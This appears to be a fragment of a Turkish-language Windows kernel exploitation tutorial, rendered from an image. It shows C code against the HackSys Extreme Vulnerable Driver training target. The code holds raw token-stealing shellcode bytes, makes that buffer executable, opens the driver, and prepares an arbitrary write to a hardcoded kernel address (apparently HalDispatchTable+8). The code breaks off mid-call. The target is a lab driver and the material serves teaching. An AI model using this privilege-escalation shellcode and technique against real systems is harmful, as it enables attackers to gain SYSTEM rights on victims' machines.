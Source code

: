 ```c
	DWORD Retval = 0;
	HANDLE hDeviceHandle = INVALID_HANDLE_VALUE;
	const WCHAR* DeviceName = L"\\\\.\\HacksysExtremeVulnerableDriver";

	ULONG Interval = 0;
	ULONGLONG Veri[2], Ne;
	NtQueryIntervalProfile_t a_NtQueryIntervalProfile = NULL;

	printf("*** Cekirdegi Kitliyoruz - YNNY ***\n");

	//
	// "Token" calan parcacik
	//
	unsigned char cakal[57] = {
		0x50, 0x65, 0x48, 0x8B, 0x14, 0x25, 0x88, 0x01, 0x00, 0x00, 0x4C, 0x8B,
		0x5A, 0x70, 0x4D, 0x8B, 0x93, 0x88, 0x01, 0x00, 0x00, 0x49, 0x8B, 0x0A,
		0x48, 0x8B, 0x51, 0xF8, 0x48, 0x83, 0xFA, 0x04, 0x74, 0x05, 0x48, 0x8B,
		0x09, 0xEB, 0xF1, 0x48, 0x8B, 0x81, 0x80, 0x00, 0x00, 0x00, 0x24, 0xF0,
		0x49, 0x89, 0x83, 0x08, 0x02, 0x00, 0x00, 0x58, 0xC3
	};

	//
	// Adresini sakla lazım olacak
	//
	Ne = (ULONGLONG)&cakal;

	//
	// Parcacigin alanini calistirilabilir yap
	//
	DWORD oldProtect;
	VirtualProtect(cakal, sizeof(cakal), PAGE_EXECUTE_READWRITE, &oldProtect);

	//
	// Surucuye tutamak al
	//
	hDeviceHandle = CreateFile(
		DeviceName,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	if (hDeviceHandle == INVALID_HANDLE_VALUE)
	{
		printf("Surucuye tutamak alamiyoruz?!\n");
		goto RETURN;
	}

	printf("Hop, tutamak geldi : %p\n", hDeviceHandle);

	//
	// Adresin alt kısmını yaz
	//
	Veri[0] = (ULONGLONG)&Ne;
	Veri[1] = 0xfffff80002847cb0 + 8;

	//
	// Hadi (b)akalım :P
	//
	Result = DeviceIoControl(
		hDeviceHandle,
```

[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.